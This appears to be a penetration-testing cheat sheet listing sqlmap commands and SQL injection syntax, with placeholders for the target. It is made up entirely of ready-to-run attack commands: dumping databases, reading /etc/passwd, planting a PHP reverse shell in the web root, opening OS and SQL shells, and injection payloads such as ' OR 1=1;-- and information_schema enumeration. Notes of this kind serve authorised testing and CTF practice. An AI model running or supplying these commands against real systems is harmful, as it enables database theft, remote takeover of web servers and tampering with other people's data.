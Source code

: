 ## Sqlmap techniques
### Enumerate sql with sqlmap
```
sqlmap -u [url] --dump-all --forms --threads=10
sqlmap -u [url] --dbs --forms --crawl=2
sqlmap -r [get request file] --dbs --batch --random-agent
sqlmap -r [get request file] --dump-all --batch
sqlmap -r [get request file] --risk=3 --level=5 --dump-all --threads 5
sqlmap -r [get request file] --risk=3 --level=5 --dbs --batch
sqlmap -r [get request file] --cookie='token=[cookie]' --technique=U --delay=2 --dump
sqlmap -r [get request file] --risk=3 --level=5 --threads=5 --dump-all
sqlmap -r [get request file] --current-user --privileges
sqlmap -r [get request file] --file-read=/etc/passwd
sqlmap -r [get request file] --file-write=php-reverse-shell.php --file-dest=/var/www/html/exploit.php --random-agent
sqlmap -r [request file] --os-shell --forms
sqlmap -r [request file] --sql-shell
sqlmap -r [request file] --sql-query \ "INSERT INTO products (name) VALUES ('TEST')"
```
### Get database tables with sqlmap
```
sqlmap -r [get request file] -D [db name] --tables
sqlmap -r [get request file] -D [db name] --tables --risk=3 --level=5
```
### Get database columns with sqlmap
```
sqlmap -r [get request file] -D [db name] -T [table name] --columns
```
### Dump data from database with sqlmap
```
sqlmap -r [get request file] --current-db [db name] -T [table name] -C [col name] --dump 
sqlmap -r [get request file] -D [db name] -T [table name] --dump --no-cast --risk=3 --level=5 --threads=5
```

## Sql injection methods & technques
### Common syntax for injection
```
SELECT * FROM [tb name]
SELECT [col name] FROM [tb name]
SELECT * FROM [tb name] LIMIT 1 {limit 1 only returns a row of data}
SELECT * FROM [tb name] LIMIT 1,1 {limit 1,1 skips a row of data and returns a row of data}
SELECT * FROM [tb name] WHERE [col name]='[data]'
SELECT * FROM [tb name] WHERE [col name]!='[data]'
SELECT * FROM [tb name] WHERE [col name] like 'a%'
SELECT * FROM [tb name] WHERE [col name] like '%n'
SELECT * FROM [tb name] UNION SELECT * FROM [tb name]
SELECT * FROM [tb name] WHERE [col name]='[data]';-- {; means the end of query, -- means commenting}
INSERT INTO [tb name] ([col name]) VALUES ('[data]')
UPDATE [tb name] SET [col name]='[data]' WHERE username='[data]'
DELETE FROM [tb name] WHERE [col name]='[data]'
DELETE FROM [tb name] LIMIT 1,1
database() {to get database name}
group_concat(table_name) FROM information_schema.tables WHERE table_schema='[db name]' {list tables in db}
group_concat(column_name) FROM information_schema.columns WHERE table_name='[tb name]' {tables structure}
group_concat([col name], ':', [col name] SEPARATOR '<br>') FROM [tb name] {retrieve data}
' OR 1=1;-- {always returns query as true}
```